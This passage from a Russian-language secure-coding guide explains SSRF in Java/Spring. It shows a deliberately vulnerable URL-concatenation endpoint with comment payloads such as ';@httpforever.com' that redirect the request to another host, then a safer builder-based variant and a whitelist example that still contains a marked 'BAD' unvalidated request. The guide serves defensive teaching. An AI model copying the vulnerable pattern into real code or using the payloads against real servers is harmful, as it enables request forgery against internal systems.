При формировании URL с помощью конкатенации возможна эксплуатация SSRF. Примеры специальных запросов приведены в комментариях.
```java
@GetMapping("open-page-unsafe")
public String openPageUnsafe(@RequestParam String location) throws URISyntaxException, IOException {
    /*Согласно RFC 3986 (https://www.rfc-editor.org/info/rfc3986)
    символы ';' и '@' являются зарезервированными символами, относящимися к sub-delims и gen-delims соответственно,
    и могут (или не могут) быть определены в качестве разделителей (зависит от реализации)*/

    // ssrf/open-page-unsafe?location=/anything - OK
    // ssrf/open-page-unsafe?location=;@httpforever.com - SSRF
    // ssrf/open-page-unsafe?location=;@eu.httpbin.org/image/jpeg - SSRF

    URL url = new URI("http://eu.httpbin.org" + location).toURL();
    System.out.printf("url: %s\nhost: %s\n", url, url.getHost());
    BufferedReader reader = new BufferedReader(new InputStreamReader(url.openStream()));

    return reader.lines().collect(Collectors.joining());
}
```

#### *Пример 6. Корректное, но не рекомендуемое использование*
В данном примере URL строится при помощи Spring-web’s UriComponentsBuilder. Способ довольно надежный, но не дает 100 % гарантии предотвращения SSRF.
```java
@GetMapping("open-page-safe")
public String openPageSafe(@RequestParam String location) throws IOException {
    // Test request: /ssrf/open-page-safe?location=;@httpforever.com
    URL resultUrl = UriComponentsBuilder.newInstance()            .scheme("http").host("eu.httpbin.org").path("anything/").path(location).build().toUri().toURL();
    
    BufferedReader reader = new BufferedReader(new InputStreamReader(resultUrl.openStream()));

    return reader.lines().collect(Collectors.joining());
}
```

#### *Пример 7. Корректное использование – белый список*
```java
private static final List<String> VALID_URI = Arrays.asList("https://qwe.rty", "https://asd.fgh");
private HttpClient client = HttpClient.newHttpClient();

@Override
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
    try {
        URI uri = new URI(request.getParameter("uri"));

        // BAD: a request parameter is incorporated without validation into a HTTP request
        HttpRequest r = HttpRequest.newBuilder(uri).build();
        client.send(r, null);

        // GOOD: the request parameter is validated against a known fixed list
        if (VALID_URI.contains(request.getParameter("uri"))) {
            HttpRequest r2 = HttpRequest.newBuilder(uri).build();
            client.send(r2, null);
        }
    } catch (URISyntaxException | InterruptedException e) {
        throw new RuntimeException(e);
    }
}
```

### 6.4. Дополнительная литература
1. https://cwe.mitre.org/data/definitions/918.html
2. https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
3. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
4. https://dzone.com/articles/the-server-side-request-forgery-vulnerability-and
5. https://blog.intigriti.com/hackademy/server-side-request-forgery-ssrf
6. https://pvs-studio.ru/ru/blog/terms/6576/
7. https://brightsec.com/blog/ssrf-server-side-request-forgery
8. https://0xn3va.gitbook.io/cheat-sheets/web-application/server-side-request-forgery

***


